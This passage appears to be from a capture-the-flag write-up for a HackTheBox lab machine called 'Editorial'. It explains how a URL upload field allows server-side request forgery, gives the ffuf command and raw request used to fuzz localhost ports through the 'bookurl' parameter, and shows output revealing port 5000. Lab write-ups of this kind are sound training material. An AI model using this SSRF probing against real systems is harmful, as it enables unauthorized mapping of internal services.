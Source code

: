 * We wish to note that the server's response includes a path to a temporary file, generated from our POST request.
* If we upload a file, the response will be a path to our uploaded file, stored on the server-side.
* If we upload a URL (which links to an image), the response is supposed to be a path to the intended image file stored on the server-side. However, we wish to note that invalid URLs result in the server responding with the same `unsplash_photo...` jpeg image.
* This implies that the server simply ingests our provided link/file, downloads it, and  stores it temporarily on the server-side. If the provided URL cannot be resolved, then the server responds with the same default image.

As we have a way to interact with the server, we can try a server-side request forgery (SSRF) approach here.

* Our aim is to make use of the URL form parameter, and fuzz for ports open on the `localhost`. That is, `http://127.0.0.1:FUZZ`.
* We do this to enumerate more services/open ports that may be running on `localhost`.
* The default response that we want to ignore would be the `unsplash_photo` response from the server.

We can fuzz the `localhost` ports using Intruder on `Burpsuite`, or through `ffuf`. I will use `ffuf` here:

`ffuf -request request.txt -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -r -u http://editorial.htb/upload-cover -fs 61`

* `request.txt` contains the raw HTTP request copied from `Burpsuite`.
* We will fuzz the open ports using a word list from `SecLists`.
* Ignore the `unsplash_photo` response, which has a size of 61.

```
 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt
 :: Header           : Host: editorial.htb
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
 :: Header           : Accept: */*
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------26481848818702765324104055977
 :: Header           : Origin: http://editorial.htb
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: close
 :: Header           : Referer: http://editorial.htb/upload
 :: Data             : -----------------------------26481848818702765324104055977
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------26481848818702765324104055977
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------26481848818702765324104055977--

 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 61
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 17ms]
:: Progress: [10000/10000] :: Job [1/1] :: 291 req/sec :: Duration: [0:00:28] :: Errors: 2 ::
```
